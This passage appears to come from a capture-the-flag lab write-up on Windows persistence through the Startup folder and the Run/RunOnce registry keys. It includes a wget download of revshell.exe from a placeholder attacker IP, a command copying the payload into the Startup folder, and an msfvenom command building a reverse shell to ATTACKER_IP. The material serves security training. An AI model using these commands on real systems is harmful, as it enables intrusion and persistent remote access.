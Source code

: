 	- Or you can also use this command: '> wget http://<attacker-ip>:8000/revshell.exe -O revshell.exe'
##### 5. Copy the `revshell.exe` in this folder using GUI or ...

![](/assets/img/Pasted image 20230107231051.png)

	- using this command: `> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"`
	- Assuming you're on the Downloads directory.

##### 6. Signing out and in again to trigger the payload:
<u>User's Point of View</u>:

![](/assets/img/Pasted image 20230107231351.png)

<u>Attacker's Point of View</u>:

![](/assets/img/Pasted image 20230107231457.png)

##### 7. Getting the flag:

![](/assets/img/Pasted image 20230107231525.png)

### B. Run / RunOnce

- You can also `force a user to execute a program on logon via the registry.`
- Instead of delivering your payload into a specific directory, you can use the following registry entries to specify applications to run at logon:

		- HKCU\Software\Microsoft\Windows\CurrentVersion\Run
		- HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
		- HKLM\Software\Microsoft\Windows\CurrentVersion\Run
		- HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce

- The registry entries under `HKCU` will only apply to the `current user`, and those under `HKLM` will `apply to everyone`.

		- HKCU -> Current User
		- HKLM -> Everyone

- Any program specified under the `Run` keys will run ***every time the user logs on***.
- Programs specified under the `RunOnce` keys will ***only be executed a single time***.

		- Run -> executes whenever the user logs on
		- RunOnce -> executes only a single time.

##### 1. Create the reverse shell payload with `msfvenom`:
`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4451 -f exe -o revshell.exe`

![](/assets/img/Pasted image 20230107234618.png)

##### 2. Download the executable to the victim's machine:
- Setup a server to download this from:
